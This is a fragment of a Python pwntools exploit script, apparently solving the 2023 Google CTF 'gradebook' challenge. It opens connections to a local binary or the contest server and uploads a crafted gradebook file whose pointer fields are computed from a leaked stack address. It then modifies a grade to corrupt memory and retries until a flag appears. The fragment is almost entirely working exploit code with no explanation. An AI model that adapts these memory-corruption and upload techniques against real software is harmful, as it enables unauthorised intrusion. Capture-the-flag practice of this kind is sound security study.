 ```python
    except:
        io1.close()
        continue
    log.info('stack: '+hex(stack))
    log.info('offset: '+hex(stack - 0x4752ade50000 - 0x1e))

    if DEBUG:
        io2 = process('./chal')
    else:
        io2 = remote('gradebook.2023.ctfcompetition.com', 1337)
    book2 = gradebook(0xffffffffffffffff,
                    (stack - 0x4752ade50000 - 0x46),
                    (stack - 0x4752ade50000 - 0x46),
                    b'Billy',
                    b'Grade',
                    b'A'*8,
                    b'A'*0x16,
                    b'A'*0x2,
                    b'A'*0xc,
                    0x12345678,
                    0x12345678)
    io2.sendlineafter(b'PASSWORD:\n', b'pencil')
    io2.sendlineafter(b'QUIT\n\n', b'2')
    io2.sendlineafter(b'NAME:\n', b'/tmp/grades_60bc167766f388675d09e6deb7b1e38c')
    io2.sendlineafter(b'ENTER FILE SIZE:\n', str(len(book2)).encode())
    io2.sendafter(b'SEND BINARY FILE DATA:\n', book2)
    io2.sendlineafter(b'QUIT\n\n', b'3')
    io2.close()

    io1.sendlineafter(b'QUIT\n\n', b'2')
    io1.sendlineafter(b'WHICH GRADE:\n', b'1')
    io1.sendlineafter(b'NEW GRADE:\n', p16(0x86e0+1))
    res = io1.recvall()
    io1.close()
    if (b'CTF{' in res):
        print(res)
        break
```